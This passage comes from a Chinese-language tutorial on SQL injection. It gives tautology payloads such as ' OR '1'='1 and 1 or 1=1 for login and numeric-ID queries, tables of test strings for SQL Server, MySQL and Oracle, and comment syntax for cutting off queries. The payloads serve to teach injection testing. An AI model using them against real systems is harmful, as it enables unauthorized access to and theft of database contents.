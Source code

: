 而对你来说你的输入仅仅是对Username输入了`' OR '1' = '1`, 相同的Password输入了`' OR '1' = '1`来满足这条查询语句, 在很多的查询语句中可以用这个方式进行注入, 而达到获取全部数据的目的。

| 测试字符串               | 变种SQL语句                | 预期结果                         |
| ------------------------ | -------------------------- | -------------------------------- |
| '                        |                            | 错误语法, 返回错误信息           |
| 1' or '1' = '1           | 1') or ('1' = '1           | 恒等于真, 返回所有数据           |
| value' or '1' = '2       | value') or ('1' = '        | 空条件, 返回原值相同的数据       |
| 1' or 'ab' = 'a' + 'b    | 1') or ('ab' = 'a' + 'b    | SQL Server字符拼接, 返回所有数据 |
| 1' or 'ab' = 'a' 'b      | 1') or ('ab' = 'a' 'b      | MySQL字符拼接, 返回所有数据      |
| 1' or 'ab' = 'a' \|\| 'b | 1') or ('ab' = 'a' \|\| 'b | Oracle字符拼接, 返回所有数据     |

很多时候我们检索一条数据的详情的时候会用到唯一标识ID, 当然有的可能用的是UUID, 这种UUID可以忽略这种方式的注入, UUID在数据库是以字符串的形式存储着, 在对于数字ID的类型检索内容详情的时候用到的SQL查询例如以下：

```sql
SELECT * FROM TableName WHERE id = {ID} ;
复制代码
```

在你输入已有ID的时候将会返回已有ID下的数据详情, 对于很多详情数据将会很有用, 那根据我们已有的[ 字符串内联注入 ](#4001)的方式, 我们将采取以下的方式进行注入测试：

```sql
SELECT * FROM TableName WHERE id = 1 or 1 = 1 ;
复制代码
```

在你对SQL的API输入`1 or 1 = 1`就可以达到获取所有数据详情的目的, 在注入中, 我们最简单的注入方式都是以恒等于真的条件进行注入的方式最为常见和切最为简单。

| 测试字符串               | 变种SQL语句                | 预期结果                         |
| ------------------------ | -------------------------- | -------------------------------- |
| '                        |                            | 错误语法, 返回错误信息           |
| 1 + 1                    | 3 - 1                      | 返回操作结果相同的数据           |
| value + 0                |                            | 返回与原先结果相同的数据         |
| 1 or 1 = 1               | 1) or (1 = 1               | 恒等于真, 返回所有数据           |
| value or 1 = 2           | value) or (1 = 2           | 空条件, 返回原值相同的数据       |
| 1 and 1 = 2              | 1) and (1 = 2              | 恒等于假, 返回空数据             |
| 1 or 'ab' = 'a' + 'b'    | 1) or ('ab' = 'a' + 'b'    | SQL Server字符拼接, 返回所有数据 |
| 1 or 'ab' = 'a' 'b'      | 1) or ('ab' = 'a' 'b'      | MySQL字符拼接, 返回所有数据      |
| 1 or 'ab' = 'a' \|\| 'b' | 1) or ('ab' = 'a' \|\| 'b' | Oracle字符拼接, 返回所有数据     |

#### 终止式SQL注入

在对SQL注入的时候, 我们可以尝试通过注释语法进行SQL注入：

| 数据库类型                   | 注释语法      | 描述                                            |
| ---------------------------- | ------------- | ----------------------------------------------- |
| SQL Server Oracle PostgreSQL | -- (双连字符) | 用于单行注释                                    |
| /* */                        | 用于多行注释  |                                                 |
| MySQL                        | -- (双连字符) | 用于单行注释 要求第二个字符跟一个空格或控制字符 |
| #                            | 用于单行注释  |                                                 |
| /* */                        | 用于多行注释  |                                                 |
